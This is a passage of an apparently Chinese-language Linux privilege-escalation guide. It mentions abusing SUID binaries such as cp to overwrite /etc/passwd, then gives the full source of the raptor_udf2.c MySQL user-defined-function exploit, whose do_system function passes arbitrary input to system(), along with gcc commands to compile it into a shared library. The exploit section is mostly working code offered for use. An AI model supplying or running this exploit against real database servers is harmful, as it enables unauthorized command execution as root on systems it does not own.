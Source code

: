 在这种情况下，该命令找到了几个SUID二进制文件。对SUIDbinaries的利用将基于多种因素而有所不同。例如，如果/ bin / cp（copycommand）是SUID，则可以复制和覆盖/ etc / passwd等敏感文件

###### mysql服务提权(mysql root)

使用以下命令编译raptor_udf2.c利用代码：

http://www.0xdeadbeef.info/exploits/raptor_udf.c

```c
#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
	unsigned int		arg_count;	// number of arguments
	enum Item_result	*arg_type;	// pointer to item_result
	char 			**args;		// pointer to arguments
	unsigned long		*lengths;	// length of string args
	char			*maybe_null;	// 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
	char			maybe_null;	// 1 if func can return NULL
	unsigned int		decimals;	// for real functions
	unsigned long 		max_length;	// for string functions
	char			*ptr;		// free ptr for func data
	char			const_item;	// 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
	if (args->arg_count != 1)
		return(0);

	system(args->args[0]);

	return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
	return(0);
}

// milw0rm.com [2006-02-20]
```



```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
